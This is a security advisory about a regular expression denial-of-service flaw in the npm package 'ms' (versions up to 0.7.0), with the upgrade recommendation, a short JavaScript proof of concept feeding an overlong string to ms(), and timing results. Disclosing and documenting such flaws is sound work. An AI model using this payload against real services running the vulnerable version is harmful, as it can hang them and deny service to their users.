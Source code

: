 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/ms
Review-Date: '2015-10-24'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: Update to version 0.7.1 or greater. An alternative would be to limit the input length of the user input before passing it into ms.
### Details
ms is vulnerable to regular expression denial of service (ReDoS) when extremely long version strings are parsed.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time."[1]  ### Proof of Concept ``` var ms = require('ms'); var genstr = function (len, chr) {    var result = "";    for (i=0; i<=len; i++) {        result = result + chr;    }     return result; }  ms(genstr(process.argv[2], "5") + " minutea");  ```  ### Results Showing increase in execution time based on the input string. ``` $ time node ms.js 10000  real	0m0.758s user	0m0.724s sys	0m0.031s  $ time node ms.js 20000  real	0m2.580s user	0m2.494s sys	0m0.047s  $ time node ms.js 30000  real	0m5.747s user	0m5.483s sys	0m0.080s  $ time node ms.js 80000  real	0m41.022s user	0m38.894s sys	0m0.529s ``` 
<br><br>• Affected Versions: <=0.7.0
<br>• Patched Versions: >0.7.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
